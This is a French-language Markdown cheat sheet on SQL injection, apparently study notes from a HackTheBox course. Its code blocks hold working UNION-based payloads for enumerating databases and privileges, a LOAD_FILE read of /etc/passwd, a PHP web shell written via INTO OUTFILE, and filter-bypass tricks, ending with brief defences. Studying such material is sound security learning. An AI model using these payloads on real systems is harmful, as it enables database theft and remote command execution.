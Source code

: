 # SQL INJECTION

----
![Types d'injection sql](../Ressources/IMG/types_of_sqli.jpg)
* L'injection sql commence toujours avec : **'**
dans le but d'escape 
* **Le select dépend toujours du nombre de colonne**

|Payload | URL Encoded | commentaire|
|--|--|-- |
|'|%27| 
|"|%22|
|#|%23|
|;|%3B|
|)|%29|
|-- |--+| commentaire ("--" + espace )|
|#|%23| commentaire |

|Operations | Response |
|--|--|
|OR 1=1| true|
|@@version|Version utilisé ( pas une injection mais une var qui donne un string ) |
|database()| database name|


###### information à propos des utilisateurs et des privilèges
```sql
# username 
select user() |  current_user
       user from mysql.user
# privilege 
SELECT super_priv FROM mysql.user
# si on a plusieurs utilisateurs , on ajoute le where
cn' UNION SELECT super_priv FROM mysql.user WHERE user="<UserName>"-- -

# dump other privileges 
# ajouter where quand il y'a plusieurs users
cn' UNION SELECT grantee, privilege_type FROM information_schema.user_privileges-- -

```
---

###  UNION INJECTIONS :

> en fonction du nombre de colonne manquant, on rajoute de faux inputs

```sql
# employee à 6 colonnes et departments 2
# selectionner toutes les colonnes dans employee avec *

# selectionner les deux colonnes de departments 
# avec leur nom puis rajouter des trus random comme colonnes suivante 

SELECT * FROM employees UNION SELECT dept_no,dept_name,3,5,4,6 FROM departments AS result;

```
#### Trouver le nombre de colonne d'une table

##### Utilisation de UNION ou ORDER BY 
```sql

# ajouter l'extra - après les 2 précédants pour montrer qu'il y'a un espace après --

#ORDER BY
# s'arreter quand il y'a une erreur , pour un nombre n => le nombre de colonne = n-1
' order by <nombre>-- -

# UNION
# s'arrete quand il n'y a pas d'erreur => pour un nombre n => le nombre de colonne = n
cn' UNION select <fakeName1>,<Fakename2>,..,<FakeNameN>-- -

```

----
### Collecte d'information :  Énumération de base de données

* List des bases de données
* List des tables dans la base de données
* List des colonnes dans chaque table
> Pour avoir ces informations , on doit afficher INFORMATION_SCHEMA

#### List des bases de données
###### **SCHEMA_NAME** column contains all the database names currently present

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
#### List des tables dans la base de données
* utilisation de **TABLE_NAME** et **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.TABLES**
```sql
cn' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='<dbName>'-- -
```

#### List des colonne d'une table dans la base de données
* utilisation de **COLUMN_NAME** **TABLE_NAME** **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.COLUMNS**
```sql
cn' UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<NameOfTable>'-- -
```

----
### Lecture de fichiers
* L'utilisateur de la base de données doit avoir le privilège FILE

```sql
# load_file accpeté par mysql and mariadb
SELECT LOAD_FILE('</etc/passwd | Path>');
```

----
### Écriture de fichiers

###### requirements : 
* FILE privilege
* secure_file_priv disabled
    ```bash
    SHOW VARIABLES LIKE 'secure_file_priv';

    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

    cn' UNION SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
    ```

* Write access to the location we want to write to on the back-end server
* write file 
```sql
# mettre le select dans un fichier 
SELECT <Element> from <tableName> INTO OUTFILE '<OutPutPath>'; # ex: SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

> Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file 

```sql
# exemple
cn' union select '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'-- -
```

pour avoir accès au shell, on utilise
```bash
<URLFilePath>?0=<cmd>
```
---- 
## Filter Bypass

* remplacer les espaces par des tabs et convertir toute la requette en URL encode 
* envoyer des requettes hex
    ```
    union select 0x<Reste du code en convertit en Hex>-- -
    ```
----
### Protection
##### Anti escape de :  ' "

##### utiliser en php : 
* Pour Postgre : **pg_escape_string()**
* Pour Mysql : **mysqli_real_escape_string()**

##### Validation des input
* utiliser : !preg_match()

##### limit privileges to select

##### install web firewall

##### using parameterized queries
----

## Ressources

###### [_SQL Basics_](../HackTheBox/Academy/SQL%20basics.md)
###### [_Payload all the things_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)